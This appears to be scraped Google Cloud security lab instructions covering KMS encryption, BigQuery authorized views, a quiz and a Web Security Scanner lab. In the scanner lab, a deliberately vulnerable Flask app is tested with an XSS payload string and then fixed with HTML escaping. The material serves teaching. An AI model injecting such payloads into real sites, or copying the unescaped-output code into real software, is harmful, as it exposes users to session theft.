Task 3. Add a default key for a bucket
In this task, you add a default key for your bucket.
View the current default key for a bucket
Run the following command to view the default encryption key for your bucket:
xxxxxxxxxxgsutil kms encryption gs://$DEVSHELL_PROJECT_ID-kms
Copied!
Note: The bucket should not currently have a default encryption key. This means all data in the bucket will be encrypted by Google-managed encryption keys.
Assign Cloud KMS keys to a service account
Run the following commands to give your Cloud Storage service account permission to use both of your Cloud KMS keys:
xxxxxxxxxxgsutil kms authorize -p $DEVSHELL_PROJECT_ID -k \projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAMEgsutil kms authorize -p $DEVSHELL_PROJECT_ID -k \projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_2_NAME
Copied!
The general syntax of the above commands is given below:
xxxxxxxxxxgsutil kms authorize -p [PROJECT_STORING_OBJECTS] -k [KEY_RESOURCE]
Where [KEY_RESOURCE] is in the format:
xxxxxxxxxxprojects/[PROJECT_STORING_KEYS]/locations/[LOCATION]/keyRings/[KEY_RING_NAME]/cryptoKeys/[KEY_NAME]
Copied!
Set the default key for a bucket
A Cloud KMS key can be set as the default key when objects are written to a bucket.
When setting the default key, the key resource must be specified in the same format as the previous command: projects/[PROJECT_STORING_KEYS]/locations/[LOCATION]/keyRings/ [KEY_RING_NAME]/cryptoKeys/[KEY_NAME].
Run the following command to set the default key for your bucket to the first key you generated:
xxxxxxxxxxgsutil kms encryption -k \projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME \gs://$DEVSHELL_PROJECT_ID-kms
Copied!
Run the following command to view the default key for the bucket to verify the last command was successful:
xxxxxxxxxxgsutil kms encryption gs://$DEVSHELL_PROJECT_ID-kms
Copied!
The default encryption key for the bucket should now be your first encryption key.
Note: Objects that were written to a bucket prior to adding or changing the default key remain encrypted with the previous encryption method.
Run the following command to copy file2.txt to the bucket:
xxxxxxxxxxgsutil cp file2.txt gs://$DEVSHELL_PROJECT_ID-kms
Copied!
View the files in the bucket
In the Cloud Console, go to Navigation menu > Cloud Storage > Bucket and click on your bucket for this lab.
You will see file 1 was encrypted with a Google-managed key and file 2 was encrypted with a customer-managed key.
Click Check my progress to verify the objective.
Add a default key for the bucket
Check my progress
Task 4. Encrypt individual objects with a Cloud KMS key
In this task, you encrypt an individual object with a Cloud KMS key. This is useful if you want to use a different key from the default key set on the bucket, or if you don't have a default key set on the bucket. This can be done by passing the key to use in each gsutil command by using the -o flag: -o "GSUtil:encryption_key=[KEY_RESOURCE]"
Run the following command to copy file3.txt to the bucket, encrypting it with your second encryption key:
xxxxxxxxxxgsutil -o \"GSUtil:encryption_key=projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings\/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_2_NAME" \cp file3.txt gs://$DEVSHELL_PROJECT_ID-kms
Copied!
In the Cloud Console, refresh the Bucket details screen and you will see file3.txt is also encrypted with a customer-managed key.
Identify the key used to encrypt an object
In the Cloud Console, look at the encryption column. It shows you what kind of key is used: a Google-managed key or a customer-managed key. If you hover over the key, you can get details about the key. You can also get key details using gsutil, which you will do in the next step.
Run the following command to display details about an object (the -L option causes gsutil ls to display all file details):
xxxxxxxxxxgsutil ls -L gs://$DEVSHELL_PROJECT_ID-kms/file3.txt
Copied!
In the information returned, locate the KMS key line.
This displays the encryption key being used by that file.
Run the previous command again for file1.txt and file2.txt.
Click Check my progress to verify the objective.
Encrypt individual objects with a Cloud KMS key
Check my progress
Task 5. Perform key rotation
In this task, you perform automatic and manual key rotation.
Note: In Cloud KMS, a key rotation is triggered by generating a new version of a key, and marking that version as the primary version. Each key has a designated primary version at any point in time, which Cloud KMS uses to encrypt data. After rotating a key, its previous key versions (which no longer are primary) are neither disabled or destroyed, and remain available for decrypting data.
Automatically rotate keys
Note: By providing a rotation schedule, Cloud KMS will automatically rotate your keys for you. A key's rotation schedule can be set using the gcloud command-line tool or via the Cloud Console.
In the Cloud Console, go to Navigation menu > Security > Key Management and click on the KeyRing named lab-keyring to view your encryption keys named labkey-1 and labkey-2.
Click on the key named labkey-1 to view all versions.
Currently you only have one version.
Click the EDIT ROTATION PERIOD button.
Set the rotation period dropdown to 30 days.
Notice that the rotation period can also be set to a Custom period that allows you to specify any desired period.
Click SAVE.
The Cloud Console now displays the next rotation date for this key.
Manually rotate keys
Note: Manually rotating keys can also be done with the gcloud command-line tool or via the Cloud Console.
In the Cloud Console, go back to the KeyRing named lab-keyring and click on the key named labkey-2 to view all versions.
Click the Rotate Key button and then click Rotate.
You now have two versions of this key, version 2 is the primary one.
Note: Using the key rotation commands above, key rotation does NOT re-encrypt already encrypted data with the newly generated key version. If you suspect unauthorized use of a key, you should re-encrypt the data protected by that key and then disable or schedule destruction of the prior key version.
Destroy old keys
Note: If you destroy a key that encrypts existing objects, you will be unable to recover that data, but you will continue to be charged for storage of your objects until you delete them.
In this part, you will not actually destroy a key, but you will investigate the process for doing so.
From the labkey-2 versions screen, click the three vertical dots on the far right of the line for
version 1of the key and select Destroy.Read the message in the Schedule key version 1 for destruction and click Cancel when done.
You have successfully used Cloud KMS keys to encrypt data in Cloud Storage.
Click Check my progress to verify the objective.
Key Rotation
Check my progress
Bonus task. Encrypt data with the REST API
The Cloud KMS service also provides a REST API to perform encryption and decryption. The content to be encrypted is specified as part of a JSON document in the REST request, and this content must be encoded using Base64 encoding. This JSON document has the following form:
{"plaintext":"Base64 encoded data to encrypt"}.
In this bonus section to the lab, you will manually invoke the REST api using curl commands to demonstrate the capability of the API.
This section assumes you still have the Cloud Shell session open and the following environment variables are defined:
xxxxxxxxxxKEYRING_NAMECRYPTOKEY_1_NAME
CRYPTOKEY_2_NAME.
If these variables are no longer defined, go back to earlier in the lab and run the commands to create these variables.
Run the following command to encode some sample text as base64 and store it in a variable named PLAIN_TEXT:
xxxxxxxxxxPLAIN_TEXT=$(echo -n "Some text to be encrypted" | base64)
Copied!
Echo the PLAIN_TEXT variable to verify the text was encoded:
xxxxxxxxxxecho $PLAIN_TEXT
Copied!
You should see the base64-encoded text.
Use the REST API to encrypt the encoded text by calling the
encryptmethod of your key.Supply the base64-encoded content in the plaintext field of the JSON for your request:
xxxxxxxxxxcurl \"https://cloudkms.googleapis.com/v1/projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME:encrypt" \-d "{\"plaintext\":\"$PLAIN_TEXT\"}" \-H "Authorization:Bearer $(gcloud auth application-default \print-access-token)" \-H "Content-Type: application/json"
Copied!
The response will be a JSON payload containing the encrypted text in the ciphertext field.
Note: The encrypted text can easily be extracted from the JSON response, and saved to a file by using the command-line utility jq. The response from the previous call can be piped into jq, which can parse out the ciphertext property and save to data1.encrypted.
Run the following command that repeats the encryption, but this time parses out the ciphertext property and saves it to the data1.encrypted file:
xxxxxxxxxxcurl \"https://cloudkms.googleapis.com/v1/projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME:encrypt" \-d "{\"plaintext\":\"$PLAIN_TEXT\"}" \-H "Authorization:Bearer $(gcloud auth application-default \print-access-token)" \-H "Content-Type: application/json" \| jq .ciphertext -r > data1.encrypted
Copied!
View the contents of the data1.encrypted file with the following command:
xxxxxxxxxxmore data1.encrypted
Copied!
Note: The encrypted text can be decrypted by calling the decrypt method of your key. You must use the same key that was used to encrypt the content.
Run the following command to decrypt the contents in the data1.encrypted file and save it into the file named data1.decrypted:
xxxxxxxxxxcurl -v \"https://cloudkms.googleapis.com/v1/projects/$DEVSHELL_PROJECT_ID/locations/us-west1/keyRings/$KEYRING_NAME/cryptoKeys/$CRYPTOKEY_1_NAME:decrypt" \-d "{\"ciphertext\":\"$(cat data1.encrypted)\"}" \-H "Authorization:Bearer $(gcloud auth application-default \print-access-token)" \-H "Content-Type:application/json" \| jq .plaintext -r | base64 -d > data1.decrypted
Copied!
View the contents of the data1.decrypted file with the following command:
xxxxxxxxxxmore data1.decrypted
Copied!
You have successfully used Cloud KMS keys.
Congratulations!
In this lab, you have done the following:
Managed keys and encrypted data using Cloud KMS.
Created KeyRings and CryptoKeys.
Set a default encryption key for a storage bucket.
Encrypted an object with a Cloud KMS key.
Rotated encryption keys.
Manually performed server-side encryption with Cloud KMS keys.
LAB - Creating a BigQuery Authorized View
Overview
When using BigQuery, permissions are configured at the dataset level. Frequently, data engineering teams maintain datasets with many large tables of raw data, but they want to share subsets of these tables with particular analyst audiences.
For example, analysts might have access to a version of a table that excludes columns with user-specific information. Or, perhaps a specific user should be able to see only specific rows from a given BigQuery table or view.
In this lab, you will learn how to create and use Authorized Views in BigQuery. You will also learn how to do row-level filtering using information about the logged-in user.
This lab will provide two Google Cloud users. This is so the BigQuery authorized view permissions can be verified by logging in as a different user.
Objectives
In this lab, you will learn how to perform the following tasks:
Set permissions on BigQuery datasets.
Use Authorized Views to provide audiences read-only access to subsets of tables.
Use the
SESSION_USER()function to limit access to specific rows within a table/view.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Create the source dataset
In this task, you create the source dataset in BigQuery that will be used in this lab.
Create a new BigQuery dataset
In the Cloud Console, open the BigQuery user interface by selecting Navigation menu > BigQuery, then click Done.
Create a new dataset within your project by clicking the three dots next to your project ID in the Explorer section, then click on Create dataset.
Enter
source_datafor Dataset ID, and click on Create Dataset (accepting the other default values).
Create a new BigQuery table with source data
Click Activate Cloud Shell to open Cloud Shell. If prompted, click Continue.
Load the source data into a new table in BigQuery by entering the following in Cloud Shell:
xxxxxxxxxxbq load --autodetect $DEVSHELL_PROJ:source_data.events gs://cloud-training/gcpsec/labs/bq-authviews-source.csv
Copied!
In the BigQuery console, review the loaded data by drilling down to
[your_project_id].source_data.eventsin the Explorer section and clicking Preview.
Note: You may need to refresh the browser to see the events table.
Note: This table has simulated data related to events generated by users of a videoconferencing application. Note that each row has information about the user who generated the event.
To ensure a future step will work as intended, enter the following query in the BigQuery Editor. Replace
<2nd qwiklabs user>withUsername 2in the qwiklabs console.
xxxxxxxxxxupdate source_data.eventsset email='<2nd qwiklabs user>'where email='rhonda.burns@example-dev.com'
Copied!
Click RUN and wait for the 68 rows to be updated with a new email address.
Click Check my progress to verify the objective.
Create the source dataset
Check my progress
Task 2. Create the analyst dataset
In this task, you create the analyst dataset, create a redacted view for the analysts, and create a second view for logged-in users.
Create a dataset
Create a new dataset within your project by clicking the three dots next to your project ID in the Explorer section, then click on Create dataset.
Enter
analyst_viewsfor Dataset ID, and click on Create Dataset (accepting the other default values).
Create a redacted view for analysts
In the BigQuery Editor area, enter the following SQL to get event data excluding the user-specific information:
xxxxxxxxxxSELECTdate,type,company,call_duration,call_type,call_num_users,call_os,rating,comment,session_id,dialin_duration,ticket_number,ticket_driverFROM`[your_project_id].source_data.events`
Copied!
Note: Make sure to replace the [your_project_id] with the Qwiklabs-created project id.
Run the query and review the results. Note that the user information is not included.
Save the entered query as a view by clicking Save > Save view.
Select your project, and the analyst_views dataset.
Enter a destination table name of
no_user_infoand click Save. Note, though the UI says destination table, you are only creating a view, not a table.Check that the view works by navigating in the Explorer section to [your_project_id].analyst_views.no_user_info. You should see the schema information for the view, which excludes user information columns.
Click on no_user_info view. Click QUERY > In new tab and enter
*into the SELECT statement so that your SQL query looks like this:
xxxxxxxxxxSELECT*FROM`[your_project_id].analyst_views.no_user_info`LIMIT1000
Copied!
Run the query and you should see results similar to those in above step, but without user data.
Create a second view, showing only rows for logged-in user
Next, create a 2nd view using the following information.
Enter the Query in the BigQuery Editor.
Note: Make sure to replace the [your_project_id] with the Qwiklabs-created project id.
xxxxxxxxxxSELECT*FROM`[your_project_id].source_data.events`WHEREemail = SESSION_USER()
Copied!
Click Run.
Save the entered query as a view by clicking Save > Save view.
Select your project, and the analyst_views dataset.
Enter a destination table name of
row_filter_session_userand click Save.
Note: This 2nd view allows users to see their own events, but no one else's.
Click Check my progress to verify the objective.
Create the analyst dataset
Check my progress
Task 3. Secure the analyst dataset
In this task you share the analyst dataset with Username 2, and secure it by providing the Viewer role.
Share the dataset
In the dataset listing to the left of the screen, click on the analyst_views dataset.
Then select Sharing from the right pane and click on Permissions.
Click Add Principal. In the New principals field, enter the email address of the 2nd lab account (Username 2) shown in the Connection Details section of the Qwiklabs lab page.
Select BigQuery Data Viewer as the role and click Save.
Click Close.
Task 4. Secure the source dataset
In this task, you secure the source dataset. You don't want analysts and others outside the data engineering team to have access to the raw data available in the source dataset, so you are going to restrict access.
You do want those using the views you've created to be able to see the data the views produce. This will require authorizing not the users, but the views.
Share the dataset
In the dataset listing to the left of the screen, click on the source_data dataset.
Then select Sharing from the right pane and click on Permissions.
Expand the BigQuery Data Viewer principal from the permission list and click on the trash icon next to it and click Remove to confirm. Click Close.
In Sharing, click on Authorize Views .
In the Authorized views, choose the following settings.
| Authorized view | no_user_info |
|---|---|
Click Add Authorization.
Add another entry with these settings replacing the existing view.
| Authorized view | row_filter_session_user |
|---|---|
Click Add Authorization.
Click Close.
Click Check my progress to verify the objective.
Secure the datasets
Check my progress
Task 5. Test your security settings
In this task, you test the security settings that you applied in previous tasks.
Sign in to the Cloud Console as the second user
Open another tab in your incognito window.
Browse to the Cloud Console.
Click on the user icon in the top-right corner of the screen, and then click Add account.
Sign in to the Cloud Console with the Username 2 provided in Qwiklabs.
Check access to the analyst views
In the Cloud Console, open the BigQuery user interface by selecting Navigation menu > BigQuery, then click Done.
Verify that you can run queries against the no_user_info view by executing the following query:
xxxxxxxxxxSELECT*FROM`analyst_views.no_user_info`WHEREtype='register'
Copied!
You should see a result set with all the user registration events within the table.
Verify that you can query the
row_filter_session_userview, only seeing the rows associated with your account, by executing the following query:
xxxxxxxxxxSELECT*FROM`analyst_views.row_filter_session_user`
Copied!
You should see a result set with 68 rows specific to the second Qwiklabs user.
Check access to the source dataset
Try accessing the raw data in the events table directly using the following query:
xxxxxxxxxxSELECT*FROM`source_data.events`
Copied!
You will see an Access denied error message indicating that you don't have permissions.
Try navigating to the source_data dataset via the Explorer section of the UI. This should also be disallowed.
Note: The 2nd Qwiklabs user has permissions to view tables and views in the analyst_views dataset, but does not have permissions to view anything in the source_data dataset.
When the user queries the view, the view itself has permissions necessary to operate against the table in the source_data dataset, and it then returns that data to the user.
The row-filtering view gets the user's email address and uses that to filter the rows visible. Every user who queries this view will get different results, specifically the rows with her email in the email column.
Congratulations!
In this lab, you have learned how to do the following:
Set permissions on BigQuery datasets.
Authorize Views to provide audiences read-only access to subsets of tables.
Use the
SESSION_USER()function to limit access to specific rows within a table/view.
QUIZ
Which TWO of the following statements is TRUE with regards to security in BigQuery and its datasets?
Using IAM, you can grant users granular permissions to BigQuery tables, rows and columns.
BigQuery has its own list of assignable IAM roles.
Correct! BigQuery role names are mapped to job functions, such as BigQuery admin or BigQuery Data Viewer.
It is always better to assign BigQuery roles to individuals as this will help to lower operational overhead.
A BigQuery Authorized View allows administrators to restrict users to viewing only subsets of a dataset.
Correct! Views provide row or column level permissions to datasets.
Which TWO of the following statements are TRUE when discussing Cloud Storage and IAM permissions?
Using IAM permissions alone gives you control over your projects, buckets, and individual objects.
Access can be granted to Cloud Storage at the organization, folder, project, or bucket levels.
Correct! Besides general access, you can also control what level of access members have.
A user needs permission from both IAM or an ACL to access a bucket or object.
Using deny rules prevent certain principals from using certain permissions, regardless of the roles they're granted.
Correct! You can define deny rules that prevent certain principals from using certain permissions, regardless of the roles they're granted.
Which TWO of the following statements are TRUE when discussing storage and BigQuery best practices?
In most cases, you should use Access Control Lists (ACLs) instead of IAM permissions.
BigQuery data can be adequately secured using the default basic roles available in Google Cloud.
One option to serve content securely to outside users is to use signed URLs.
Correct! Using signed URLs, content can be securely made available to users who do not have Google accounts.
Do not use any personally identifiable information as object names.
Correct! Storage names often appear in URLs, so any information that is critical to maintaining system or data security should not be used in an object name.
Application Security: Techniques and Best Practices
LAB - Identify Application Vulnerabilities with Security Command Center
Overview
Web Security Scanner (WSS) is one of Security Command Center's built-in services that can be used to identify security vulnerabilities in App Engine, Google Kubernetes Engine (GKE), and Compute Engine web applications.
This service crawls your application, following all links within the scope of your starting URLs, and attempts to exercise as many user inputs and event handlers as possible. It can automatically scan and detect four common vulnerabilities, including cross-site-scripting (XSS), flash injection, mixed content (HTTP in HTTPS), and outdated/insecure libraries.
Web Security Scanner enables early identification of vulnerabilities and delivers very low false positive rates. You can easily set up, run, schedule, and manage security scans.
In this lab, you use Web Security Scanner to scan a Python Flask application for vulnerabilities.
Objectives
In this lab, you learn how to perform the following tasks:
Launch a vulnerable Python Flask application on a Compute Engine instance.
Use Web Security Scanner to scan the application and find vulnerabilities.
Fix the application vulnerability.
Scan the application again and verify vulnerabilities no longer exist.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Scenario
Cymbal Bank is an American retail bank with over 2,000 branches in all 50 states. It offers comprehensive debit and credit services that are built on top of a robust payments platform. Cymbal Bank is a digitally transforming legacy financial services institution.
Cymbal Bank was founded in 1920 under the name Troxler. Cymbal Group acquired the company in 1975 after it had been investing heavily in Cymbal Group's proprietary ATMs. As the bank grew into a national leader, they put strategic emphasis on modernizing the customer experience both in-person at their branches and digitally through an app they released in 2014. Cymbal Bank employs 42,000 people nationwide and, in 2019, reported $24 billion in revenue.
Cymbal Bank is interested in developing a new banking application for their corporate clients using Google Cloud technology. Application security is critical, and the CTO wants to see how Google Cloud can identify and mitigate application security vulnerabilities. As a Cloud Security Engineer, you are tasked with demonstrating Security Command Center's cutting-edge application vulnerability scanning features.
Task 1. Launch a virtual machine and create a firewall rule for WSS
In this task, you set up the infrastructure to demonstrate an application vulnerability to Cymbal Bank's CTO. More specifically, you deploy a virtual machine and open a firewall rule for Web Security Scanner to be able to access the vulnerable application that you intend to deploy.
On the Google Cloud console title bar, click Activate Cloud Shell (
Create a static IP address that can be used for scanning a vulnerable web application by running the following command:
xxxxxxxxxxgcloud compute addresses create xss-test-ip-address --region=europe-west4
Copied!
Run the following command to output the static IP address you just generated:
xxxxxxxxxxgcloud compute addresses describe xss-test-ip-address \--region=europe-west4 --format="value(address)"
Copied!
Copy the IP address (a single line of the output) and save it in a notepad.
Run the following command to create a VM instance to run the vulnerable application:
xxxxxxxxxxgcloud compute instances create xss-test-vm-instance \--address=xss-test-ip-address --no-service-account \--no-scopes --machine-type=e2-micro --zone=europe-west4-a \--metadata=startup-script='apt-get update; apt-get install -y python3-flask'
Copied!
The startup script installs python-flask, a Web Application Framework, which is used for running a simple Python application demonstrating cross-site scripting (XSS) vulnerability, which is a common web application security vulnerability.
Run the following command to open a firewall rule for Web Security Scanner to access a vulnerable application. Note the source ranges from which Web Security Scanner scans applications.
xxxxxxxxxxgcloud compute firewall-rules create enable-wss-scan \--direction=INGRESS --priority=1000 \--network=default --action=ALLOW \--rules=tcp:8080 --source-ranges=0.0.0.0/0
Copied!
Click Check my progress to verify the objective.
Create the VM with desired configurations
Check my progress
Task 2. Deploy a vulnerable application to trigger an XSS vulnerability
In this task, you obtain the application code and introduce a vulnerability for Web Security Scanner to detect. This is in the form of an application, which is a simple form that receives a user's input and outputs it without any changes.
In the Cloud console, on the Navigation menu (
This may take a minute to initialize for the first time.
Then click on the SSH button next to your instance:

A pop-up may appear, asking you to allow SSH in-browser to connect to VMs. Click Authorize.
This opens an SSH connection to your VM instance in a new window.
In this SSH window (*Not in Cloud Shell*), run the following command to download and extract the vulnerable web application files:
xxxxxxxxxxgsutil cp gs://cloud-training/GCPSEC-ScannerAppEngine/flask_code.tar . && tar xvf flask_code.tar
Copied!
Now run the following command to deploy your application:
xxxxxxxxxxpython3 app.py
Copied!
Soon after, you should receive a message that indicates your application is up and running.
Output:
xxxxxxxxxx* Serving Flask app "app" (lazy loading)* Environment: productionWARNING: This is a development server. Do not use it in a production deployment.Use a production WSGI server instead.* Debug mode: off* Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)
Find the static IP address of the VM you copied into your notepad earlier.
Replace
YOUR_EXTERNAL_IPin the URL field below with that IP address, and open the URL in a new browser tab:
xxxxxxxxxxhttp://<YOUR_EXTERNAL_IP>:8080
Copied!
Note: You can also find the external IP address in the Google Cloud console, where it's listed as a field associated with your VM instance.
A Cymbal Bank corporate banking portal with a web form should appear.
In the web form, enter the following string:
xxxxxxxxxx<script>alert('This is an XSS Injection')</script>
Copied!
Now click the POST button.
You should receive the following alert window.
This is a common vulnerability in web applications: a cross-site scripting vulnerability. Cross-site scripting (XSS) is a vulnerability that enables attackers to run malicious scripts in users' browsers in the context of your application. Your browser interprets a string as a legitimate Javascript and executes it.
An attacker who uses an XSS bug to inject JavaScript into an HTML page gains virtually unlimited access to the logged-in sessions of the victims who visit the page: they may steal user data, tamper with it, change privacy or security settings, or even completely alter the way the product looks and operates. Even more, an XSS vulnerability in one application, no matter how inconsequential, may jeopardize other content within the same domain.
This is one of many application vulnerabilities that Web Security Scanner can help you identify.
Click Check my progress to verify the objective.
Download vulnerable web application files on the VM
Check my progress
Task 3. Enable the Web Security Scanner API
Now that the vulnerable application is launched, it's time to demonstrate Web Security Scanner's abilities to the CTO. But first, you need to configure the API that WSS uses to run.
Switch back to the Cloud console browser tab.
From the Navigation menu (
In the Search for APIs and services field, type
Web Security Scannerand press Enter.Select the Web Security Scanner API.
Click Enable to enable the Web Security Scanner API.
Click Check my progress to verify the objective.
Enable the Web Security Scanner API
Check my progress
Task 4. Scan the deployed application with WSS
In this task, you configure and set up a scan of the application to check if it finds security vulnerabilities.
Open the Navigation menu (
Click + New Scan.
In the Starting URLs section, the Starting URL 1 field should be pre-populated with your static IP address.
Add the port number 8080, so that the Starting URL resembles the following:
xxxxxxxxxxhttp://<EXTERNAL_IP>:8080
Copied!
If present, delete Starting URL 2.
Take a minute to review the remaining fields on the Create a new scan screen:
Authentication: a property that can be used to provide application credentials to allow the scanner to authenticate to an app while scanning.
Schedule: a property that can be used to schedule scans to run automatically.
Export to Security Command Center: a property that allows you to automatically export scan configurations and scan results to Cloud Security Command Center after scans are finished.
Verify the Authentication is still set to None and that Schedule is set to Never.
Click Show More to investigate the remaining settings.
Click Save to create the scan.
Note: This creates the scan, but do not run it yet. It must currently be run manually since you did not create a schedule yet.
Click Run to start the scan
Note: Given the number of possible tests, this can take a little over 10 minutes to scan.
Return to your SSH session in your separate browser window.
If the session timed out, run the following command to restart your application:
xxxxxxxxxxpython3 app.py
Copied!
In your SSH Window, you should start to see logs generated similar to the example below—this is Web Security Scanner testing all possible URLs for potential vulnerabilities.
Output:
xxxxxxxxxx34.29.3.21 - - [23/Mar/2023 23:30:41] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:06] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:07] "GET /favicon.ico HTTP/1.1" 404 -34.68.231.45 - - [23/Mar/2023 23:31:09] "POST / HTTP/1.1" 302 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /output HTTP/1.1" 200 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /favicon.ico HTTP/1.1" 404 -35.184.129.44 - - [23/Mar/2023 23:31:17] "POST / HTTP/1.1" 302 -35.184.129.44 - - [23/Mar/2023 23:31:17] "GET /output HTTP/1.1" 200 -
You may see log statements with the following HTTP status codes:
200: A successful request, where the HTTP server answered with an OK response.
302: Indicates a resource is temporarily located elsewhere according to the Location header.
404: indicates that one or more resources were not found.
Check out the HTTP Status and Error Codes documentation for more information.
While the scan is running, feel free to explore the Results, URLs Crawled, and Details tabs. You can also check out this getting started video, or this vulnerability scanning video to learn more about Web Security Scanner.
When the scan is done running, the Results tab should indicate the cross-site vulnerabilities.
The Web Security Scanner was able to scan all starting URLs and detect the XSS vulnerabilities in Cymbal Bank's application. The ability to automate the detection of these critical vulnerabilities is a major benefit for security-minded organizations like Cymbal Bank.
Click Check my progress to verify the objective.
Run a Web Security Scanner scan and detect application vulnerabilities
Check my progress
Task 5. Correct the vulnerability and scan again
Now that you have demonstrated Web Security Scanner can detect a XSS vulnerability, you remediate the vulnerability and run the application scan again.
Return to your SSH window that's connected to your VM instance.
Stop the running application by pressing CTRL + C.
Edit the app.py file using the nano editor by running the following command:
xxxxxxxxxxnano app.py
Copied!
Locate the two lines that set the output string:
xxxxxxxxxx# output_string = "".join([html_escape_table.get(c, c) for c in input_string])output_string = input_string
Copied!
Remove the
#symbol from the first line and add it to the beginning of the next line (ensure that you indent your code properly!)
Your final lines must resemble the following:
xxxxxxxxxx@app.route('/output')def output():output_string = "".join([html_escape_table.get(c, c) for c in input_string])# output_string = input_stringreturn flask.render_template("output.html", output=output_string)
Copied!
Note: html_escape_table is a dictionary that contains one-to-one pairings of special HTML characters like "<" to their text representation. You use this table to escape special HTML characters so your form ingests and interprets submissions as raw text only. You can refer to this What is HTML Escape? documentation for more information.
Now type CTRL+X, Y, and Enter to save your changes.
Re-run the application:
xxxxxxxxxxpython3 app.py
Copied!
Return to the Google Cloud console browser tab (you should still have the Web Security Scanner page open):
Click Run at the top of the page.
In your SSH Window, you should start to see logs where Web Security Scanner tests application URLs for potential vulnerabilities.
Output:
xxxxxxxxxx34.29.3.21 - - [23/Mar/2023 23:30:41] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:06] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:07] "GET /favicon.ico HTTP/1.1" 404 -34.68.231.45 - - [23/Mar/2023 23:31:09] "POST / HTTP/1.1" 302 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /output HTTP/1.1" 200 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /favicon.ico HTTP/1.1" 404 -35.184.129.44 - - [23/Mar/2023 23:31:17] "POST / HTTP/1.1" 302 -35.184.129.44 - - [23/Mar/2023 23:31:17] "GET /output HTTP/1.1" 200 -
While you are waiting for the results of the scan, login to the URL
http://<EXTERNAL_IP>:8080using your browser in a separate tab.The web form displays once again.
In the web form, enter the same string that you entered in before:
xxxxxxxxxx<script>alert('This is an XSS Injection')</script>
Copied!
Now click the POST button.
Verify that this time you receive the following string in the browser:
Note: Although this technique works in this simple scenario, for proper protection of your web application you need to use more advanced techniques and frameworks which are out of scope of this lab.
Explore the links below for more resources:
Return to the Google Cloud console, where you left off on the Web Security Scanner page.
Click Run at the top of the page to re-scan your application.
Soon after, you should notice that the results yield no more XSS vulnerabilities.
Click Check my progress to verify the objective.
Correct vulnerabilities and rescan your application using Web Security Scanner
Check my progress
Congratulations!
You have successfully demonstrated to the Cymbal Bank CTO how to identify and remediate XSS vulnerabilities with Google Cloud's powerful Web Security Scanner solution.
LAB - Securing Compute Engine Applications with BeyondCorp Enterprise
Overview
In this lab, you secure Compute Engine workloads using BeyondCorp Enterprise’s Identity-Aware Proxy (IAP) to restrict traffic based on identity.
IAP is a feature of BeyondCorp Enterprise, Google Cloud's zero-trust solution that enables an organization's workforce to access web applications securely from anywhere, without the need for VPN and without fear of malware, phishing, and data loss.
This lab provisions a web-based integrated development environment (IDE) that you will restrict access to by enabling zero-trust configuration.
Objectives
In this lab, you learn how to perform the following tasks:
Configure OAuth Consent.
Set up OAuth access credentials.
Set up IAP access for the deployed application.
Use IAP to restrict access to the application.
Setup and requirements
Before you click the Start Lab button
Note: Read these instructions.
Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources will be made available to you.
This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.
What you need
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Time to complete the lab.
Note: If you already have your own personal Google Cloud account or project, do not use it for this lab.
Note: If you are using a Pixelbook, open an Incognito window to run this lab.
How to start your lab and sign in to the Console
Click the Start Lab button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.
Copy the username, and then click Open Google Console. The lab spins up resources, and then opens another tab that shows the Choose an account page.
Note: Open the tabs in separate windows, side-by-side.
On the Choose an account page, click Use Another Account. The Sign in page opens.
Paste the username that you copied from the Connection Details panel. Then copy and paste the password.
Note: You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Cloud console opens in this tab.
Note: You can view the menu with a list of Google Cloud Products and Services by clicking the Navigation menu at the top-left.
